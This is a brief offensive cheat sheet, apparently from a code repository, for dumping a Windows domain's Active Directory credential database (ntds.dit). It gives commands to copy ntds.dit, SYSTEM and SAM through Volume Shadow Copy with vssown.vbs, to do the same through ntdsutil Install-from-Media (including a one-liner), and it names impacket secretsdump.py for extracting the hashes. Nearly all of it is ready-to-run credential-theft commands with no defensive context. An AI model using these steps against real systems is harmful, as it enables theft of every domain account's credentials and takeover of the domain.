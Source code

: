# Crack ntds.dit
%systemroot%\ntds\ntds.dit 
impacket secretsdump.py

## Grab with VSS (Volume Shadow Copy)
cscript vssown.vbs /status 
cscript vssown.vbs /start 
cscript vssown.vbs /create /c 
### X = # associated 
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit 
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak 
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak
cscript vssown.vbs /stop 
## Grab with IFM (Install from Media)
ntdsutil
activate instance ntdsifm
create full C:\mybackup
quit 
quit 
### One Liner
ntdsutil "ac in ntds" "ifm" "cr fu C:\temp" q q 